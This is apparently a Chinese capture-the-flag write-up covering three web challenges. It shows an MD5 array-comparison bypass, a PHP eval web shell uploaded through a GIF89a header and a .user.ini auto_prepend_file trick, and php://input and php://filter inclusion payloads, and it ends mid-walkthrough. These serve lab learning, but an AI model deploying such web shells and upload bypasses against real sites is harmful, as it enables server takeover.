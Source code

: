然后得到，绕过同上，拿到flag

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}//payload：param1[]=1&param2[]=2
```

# [SUCTF 2019]CheckIn

打开靶机，文件上传，抓包尝试上传一句话木马，后缀名为`php,php3,phtml`等，但这些后缀都被过滤了，再尝试`jpg`，这个好像可以，但检测了文件内容，不能有标志符`<?`，于是进行简单的绕过

```php
<script language=php>eval($_POST['cmd']);</script>
```

回显为`exif_imagetype:not image!`，`exif_imagetype() ` 是个判断图像类型的函数，它通过读取一个图像的第一个字节并检查其签名来判断。所以要添加文件头`GIF89a`，可以上传成功，并且给出了文件路径和目录，可是无法上传可执行文件，还是没用。

所以查看WP，这里要用到`.user.ini`文件的知识，上传一个`.user.ini`文件，写入如下配置

```
GIF89a
auto_prepend_file=123.gif
//指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。需要当前上传的目录下有php文件，此处有index.php
```

最后蚁剑直连（地址为`url/uploads/bda605feb930ea234388b9cc4e2fbdea/index.php`）对这地址有点不解，在根目录下拿到flag

# [ZJCTF 2019]NiZhuanSiWei

打开靶机，代码审计

```php
<?php  
$text = $_GET["text"];//text=php://input [POST DATA]:welcome to the zjctf
$file = $_GET["file"];//file=php://filter/read=convert.base64-encode/resource=useless.php
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){//$file过滤了flag字符串
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```
